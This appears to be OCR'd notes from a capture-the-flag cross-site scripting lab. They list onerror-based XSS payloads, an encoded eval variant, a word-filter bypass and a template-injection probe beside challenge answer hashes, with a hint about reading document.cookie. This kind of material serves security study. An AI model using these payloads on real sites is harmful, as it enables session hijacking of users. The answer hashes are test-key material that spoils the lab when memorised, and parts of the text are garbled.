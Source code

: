```
Answer: 3c3cf8d90aaece81710ab9db759352c0

or

<img src=witty onerror=alert("Hello");>

or

<object onerror=alert('Hello')>

2)
not work
<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))";>
so
The first two character “> is to escape the current html tag.

When you reference <img src=x, this causes an error because the application is unable to find the resource x. This is intentionally done to make use of the onerror event handler.

Prompt is similar to alert which acts as a proof of concept that the script ran.

Try document.cookie and you should be able to see your current session cookie.

“><iframe src=”x” onerror=prompt(1);>?

“><a href=”x” onerror=promot(1);>?{{2*2}}

<img src="3.gif" onerror="myFunction()"> — which function you want to execute on this 


<img src=witty onerror=confirm("Hello")>

or

<img src=witty onerror=prompt("Hello")>

or

“><iframe src=”x” onerror=prompt("Hello");>

or

“><a href=”x” onerror=prompt("Hello");>

Answer: a2e5ef66f5ff584a01d734ef5edaae91

some page doing this https://artsandculture.google.com/usergallery/img-src-x-onerror-prompt-document-cookie/3QLCc_ESGm35JA

don't enter 

3)

<object onerror=alert('Hello')>

or

<img src="witty" onerror=alert("HHelloello") />

This can be done by just playing some tricks with the word ‘Hello’. Since the word hello is filtered, it will deduct ‘Hello’ from this string ‘HHelloello’ and return ‘Hello’ to the user.

Answer: decba45d0eff17c6eedf1629393bee1d
```